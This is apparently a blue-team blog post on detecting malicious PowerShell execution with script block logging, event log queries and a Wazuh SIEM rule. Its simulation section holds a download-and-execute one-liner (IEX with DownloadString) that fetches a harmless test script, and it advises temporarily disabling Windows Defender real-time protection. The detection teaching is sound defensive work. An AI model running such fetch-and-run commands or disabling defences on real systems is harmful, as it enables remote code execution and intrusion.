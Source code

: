 ```yaml
---
title: Detecting Malicious Script Execution in PowerShell
date: 2024-05-25 06:00:00 -0600
categories: [blueteam, detection]
tags: [difficulty:low, endpoint, os:windows]
image:
  path: https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/3d7c8a9b-d0d6-4a44-9078-b62956a3ac16
---
```


PowerShell, a powerful Windows command-line shell and scripting language, is often abused by adversaries to execute malicious scripts and commands, one of the most commonly used techniques according to [redcanary](https://redcanary.com/threat-detection-report/techniques/). 

We will explore how attackers leverage PowerShell's capabilities to carry out their intrusions, such as those seen in recent REF4578 intrusions revealed by [Elastic Security Labs](https://www.elastic.co/security-labs/invisible-miners-unveiling-ghostengine) and [Antiy](https://www.antiy.com/response/HideShoveling.html). 
  
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/260b397b-dcba-45d8-bd7b-41347601c406){: .w-75 }
_[@elasticseclabs](https://x.com/elasticseclabs/status/1792932108073132451)_

## Execution in PowerShell
[T1059.001: PowerShell](https://attack.mitre.org/techniques/T1059/001/), This technique is post-exploitation, meaning that the attacker already has access to a machine and will execute their scripts, similar to the approach used in GhostEngine mining attacks.

![image](https://www.elastic.co/security-labs/_next/image?url=%2Fsecurity-labs%2Fassets%2Fimages%2Finvisible-miners-unveiling-ghostengine%2Fimage10.png&w=1920&q=100){: .w-75 }
_Source: Elastic Security Labs **Download and Excecute a PowerShell Script**_

## Collection
Enabling PowerShell logging is crucial for effective detection of malicious activities. By default, Windows has PowerShell logging disabled, which can hinder our ability to monitor and respond to threats. By configuring detailed logging, we can capture information about every **script block** and **command** executed in PowerShell.
- Open a PowerShell as **Administrator** and run the following commands
```powershell
$basePath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
if (-not (Test-Path $basePath)) { $null = New-Item $basePath -Force }
Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
```

## Simulation
For the simulation, we will execute a command line in Cmd to observe how it is logged and detected in lab host. To ensure the commands are executed without interference, we will temporarily disable Windows Defender's real-time protection for testing purposes. This will help us understand the logging process and identify key indicators of potentially malicious activity.
```batch
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/lr2t9iz/PowershellScriptsHub/main/hello_world.ps1');"
```
- Output
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/9ae2ba5a-4234-4957-a83f-51cdaf6718c9)

## Result
To look up for malicious script execution, we will use the following PowerShell command to query the event logs.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" `
-FilterXPath '*[System[EventID=4104]]' | Sort-Object -Property TimeCreated `
| Where-Object {$_.ToXml().Contains("hello_world")} | fl
```
- Result
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/aea657fe-259a-4531-8184-f7fb7a5a7af9)

## Detection
Search for the event in the SIEM, [if you don't have a siem yet, check out Wazuh S1EM](https://c-137lab.com/posts/wazuh-s1em/).
- Wazuh ﹀ Modules > Security events
- Put the following query in the search bar and click on ***Update***
```
data.win.system.channel:"Microsoft-Windows-PowerShell/Operational" AND data.win.system.message:*hello_world*
```
- Query Result
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/614fe54e-94cc-471f-b10d-493586481e1f)
- To see the content of the script, click on the ***+ sign*** of the processID.

![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/9950b028-c737-4e8d-bf2f-9d13f5764ad2)
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/0f575891-63e5-4167-9343-6532bb7b5d95)
- To receive an alert we will modify the rule, id 91837.
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/1e5b88a8-396a-4726-a31e-ac5c89315577)
- The rule is located in the [following repository](https://github.com/lr2t9iz/wazuh-usecases-integrator/tree/main/windows/detection-rules).
- As a result, we will receive a slack alert to detect the powershell execution.
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/db84acbf-8dcb-4c13-b183-7e560faa7622)
